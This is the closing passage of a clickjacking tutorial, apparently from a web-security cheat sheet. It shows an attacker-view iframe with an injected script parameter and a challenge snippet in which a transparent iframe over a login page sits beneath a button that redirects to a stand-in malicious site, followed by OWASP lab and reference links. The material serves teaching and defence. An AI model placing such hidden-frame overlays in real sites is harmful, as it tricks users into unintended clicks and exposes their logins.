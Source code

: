 Attacker View:

```html
<iframe src=”http://target site/?param=if(top+!%3D+self)+%7B+top.location%3Dself.location%3B+%7D”>
```

## Challenge

Inspect the following code:

```html
<div style="position: absolute; opacity: 0;">
  <iframe src="https://legitimate-site.com/login" width="500" height="500"></iframe>
</div>
<button onclick="document.getElementsByTagName('iframe')[0].contentWindow.location='malicious-site.com';">Click me</button>
```

Determine the Clickjacking vulnerability within this code snippet. Identify how the hidden iframe is being used to exploit the user's actions when they click the button, leading them to a malicious website.

## Labs

* [OWASP WebGoat](https://owasp.org/www-project-webgoat/)
* [OWASP Client Side Clickjacking Test](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/09-Testing_for_Clickjacking)

## References

* [Clickjacker.io - Saurabh Banawar - May 10, 2020](https://clickjacker.io)
* [Clickjacking - Gustav Rydstedt - April 28, 2020](https://owasp.org/www-community/attacks/Clickjacking)
* [Synopsys Clickjacking - BlackDuck - November 29, 2019](https://www.synopsys.com/glossary/what-is-clickjacking.html#B)
* [Web-Security Clickjacking - PortSwigger - October 12, 2019](https://portswigger.net/web-security/clickjacking)
